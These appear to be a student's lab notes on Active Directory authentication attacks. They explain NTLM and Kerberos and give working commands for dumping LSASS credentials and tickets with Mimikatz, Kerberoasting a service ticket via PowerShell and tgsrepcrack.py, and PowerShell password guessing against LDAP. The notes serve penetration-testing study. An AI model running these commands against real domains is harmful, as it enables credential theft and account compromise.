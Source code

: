 
2 Types Kerberos and NTLM

### NTLM Auth
* Authenticates via IP instead of hostname
* Uses users pw to calculate hash. 
* Sends usename to server and server sends challenge
* Client encrypts challenge using NTLM hash, responds to server
* Server forwards response along with username  and nonce to Domain Controller
* Domain controller validates bc it knows all hashes.
* Cannot be reversed but can be cracked


### Kerberos Auth
* Uses a ticket based system
* Domain Controller is KDC. Client sends Auth Server Request which is timestamp encrypted using hash.
* DC confirms by decrypting and make sure time stamp is not duplicate.
* DC gives back a session key and Ticket Granting Ticket. Sess key is encrypted using hash. TGT has user info, group memberships, domain, timestamp, IP and sess key, this cannot be decrypted by client.

### Cached Credential Storage
Kerberos = Single sign on, password hashes used are stored in Local Security Authority Subsystem Service (LSASS) memory. These hashes are crackable. 

Can use mimikatz to extract hashes on system.
> For example, execute Mimikatz directly from memory using an injector like PowerShell or use a built-in tool like Task Manager to dump the entire LSASS process memory, move the dumped data to a helper machine, and from there, load the data into Mimikatz

```
mimikatz.exe
privilege::debug # Engage SeDebugPrivilege allows interaction other account process
sekurlsa::logonpasswords # dump creds of all logged on users
sekurlsa::tickets # Dump TGT tickets
```

### Service Account Attacks
Anyone can ask for a service ticket from the domain controller. Domain controlle does not check if user has permissions to access service hoster by SP. This is second step check. 

> If we know SPN we can request service ticket and then crack.

For example, we know that the registered SPN for the Internet Information Services web server in the domain is HTTP/CorpWebServer.corp.com. From PowerShell, we can use the KerberosRequestorSecurityToken class to request the service ticket.

The code segment we need is located inside the System.IdentityModel3 namespace, which is not loaded into a PowerShell instance by default. To load it, we use the Add-Type cmdlet with the -AssemblyName argument.

We can call the KerberosRequestorSecurityToken constructor by specifying the SPN with the -ArgumentList option
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
```

After exec, ticket should be generated inot memory. Can use klist command to display all cached Kerberos tickets for the current user.

Download Service Ticket: `kerberos::list /export`
This is encrypted with SPN's pw hash. We can decrypt this using Kerberoasting.
Install using apt, then: `python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi`  


### Low and slow password guessing
If account lockout gets triggered from too many attempts, this technique helps with that.
Domains account policy: `net accounts` > lockout threshold and lockout observation window.

Use powershell to make queries in the context of a different user.
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "jeff_admin", "Qwerty09!")
```
If pw correct, object creation shown. Else, exception saying user/pw is incorrect.
An existing implementation of this attack called Spray-Passwords.ps11 is located in the `C:\Tools\active_directory` folder of the Windows 10 client. Can test admin with -Admin flag.